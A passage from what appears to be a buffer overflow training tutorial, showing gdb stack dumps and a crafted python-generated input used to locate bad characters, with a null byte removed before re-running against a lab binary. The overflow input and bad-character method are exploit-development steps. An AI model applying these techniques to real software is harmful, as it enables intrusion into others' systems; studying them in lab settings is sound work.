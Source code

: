 Now we can look at the stack:

```bash
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

Here we can see at which address "`\x55`" starts. From here we can go further down and look for the place where `CHARS` start:

```bash
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

We see where our "`\x55`" ends, and the `CHARS` variable begins. But if we look closely at it, we will see that it starts with "`\x01`" instead of "`\x00`". We have already seen the warning during the execution that the `null byte` in our input was ignored.

So we can note this character, remove it from our variable `CHARS` and adjust the number of our "`\x55`".

```bash
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
EIP = "\x66" * 4
```

Now we send without null bytes:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
